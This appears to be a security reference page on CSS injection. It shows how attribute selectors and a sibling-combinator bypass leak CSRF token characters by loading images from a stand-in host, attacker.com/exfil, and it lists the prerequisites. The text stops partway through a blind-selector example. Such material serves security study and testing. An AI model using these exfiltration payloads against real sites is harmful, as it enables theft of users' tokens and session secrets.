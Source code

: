 # CSS Injection


## CSS Injection

### Attribute Selector

CSS selectors are crafted to match values of an `input` element's `name` and `value` attributes. If the input element's value attribute starts with a specific character, a predefined external resource is loaded:

```css
input[name="csrf"][value^="a"] {
  background-image: url(https://attacker.com/exfil/a);
}
input[name="csrf"][value^="b"] {
  background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name="csrf"][value^="9"] {
  background-image: url(https://attacker.com/exfil/9);
}
```
```
However, this approach faces a limitation when dealing with hidden input elements (`type="hidden"`) because hidden elements do not load backgrounds.

#### Bypass for Hidden Elements

To circumvent this limitation, you can target a subsequent sibling element using the `~` general sibling combinator. The CSS rule then applies to all siblings following the hidden input element, causing the background image to load:

```css
input[name="csrf"][value^="csrF"] ~ * {
  background-image: url(https://attacker.com/exfil/csrF);
}
```
```
A practical example of exploiting this technique is detailed in the provided code snippet. You can view it [[https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e|here]].

#### Prerequisites for CSS Injection

For the CSS Injection technique to be effective, certain conditions must be met:

1. **Payload Length**: The CSS injection vector must support sufficiently long payloads to accommodate the crafted selectors.
2. **CSS Re-evaluation**: You should have the ability to frame the page, which is necessary to trigger the re-evaluation of CSS with newly generated payloads.
3. **External Resources**: The technique assumes the ability to use externally hosted images. This might be restricted by the site's Content Security Policy (CSP).

### Blind Attribute Selector

As [[https://portswigger.net/research/blind-css-exfiltration|**explained in this post**]], it's possible to combine the selectors **`:has`** and **`:not`** to identify content even from blind elements. This is very useful when you have no idea what is inside the web page loading the CSS injection.\
It's also possible to use those selectors to extract information from several block of the same type like in:

```html
<style>
  html:has(input[name^="m"]):not(input[name="mytoken"]) {
```